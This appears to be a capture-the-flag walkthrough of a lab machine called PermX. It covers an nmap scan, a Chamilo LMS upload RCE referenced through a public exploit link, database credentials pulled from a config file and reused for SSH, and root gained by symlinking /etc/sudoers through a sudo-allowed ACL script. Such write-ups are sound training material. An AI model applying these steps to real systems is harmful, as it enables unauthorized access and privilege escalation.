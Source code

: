 ## Port Scanning

```
# Nmap 7.94SVN scan initiated Sat Aug 31 15:16:00 2024 as: nmap -p 22,80,3922 -sV -sC -oA nmap/permx-detailed 10.10.11.23
Nmap scan report for 10.10.11.23
Host is up (0.046s latency).

PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp   open   http       Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
3922/tcp closed sor-update
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 31 15:16:11 2024 -- 1 IP address (1 host up) scanned in 10.32 seconds
```

---

## Port 80

Enumerate vhost and find `lms.permx.htb`
Enumerate `lms.permx.htb` dirs and find `/documentation` which leaks Chamilo version 1.11
Search for an exploit and find this https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc
Basically you have an unauthenticated arbitrary file upload which allows you to RCE
Run the exploit and get the foodhold

---

## User www-data

```
grep "3306" . -r 2>/dev/null | awk 'length <= 100'
```

We find db creds at `/var/www/chamilo/app/config/configuration.php`

```
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```

This is a rabbit hole

```
MariaDB [chamilo]> select username,password,salt from user;
+----------+--------------------------------------------------------------+---------------------------------------------+
| username | password                                                     | salt                                        |
+----------+--------------------------------------------------------------+---------------------------------------------+
| admin    | $2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra | awb0kMoTumbFvi22ojwv.Pg92gFTMOt837kWsGVbJN4 |
| anon     | $2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS | Mr1pyTT.C/oEIPb/7ezOdrCDKM.KHb0nrXAUyIyt/MY |
+----------+--------------------------------------------------------------+---------------------------------------------+
```

Just login as mtz

```
mtz:03F6lY3uXAP2bkW8
```

---

## User mtz

```
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

Basically we can put rwx perm on any file under `/home/mtz` but actually you can work around this by creating a symlink

There are various ways to privesc (edit `/etc/passwd`, add a cronjob, edit sudoers)
We choose to edit `/etc/sudoers`

```
ln -s /etc/sudoers sudoers
sudo /opt/acl.sh mtz rwx /home/mtz/sudoers
echo "mtz ALL=(ALL:ALL) NOPASSWD: /bin/bash" > /etc/sudoers
```

```
sudo /bin/bash
```

We are root

---
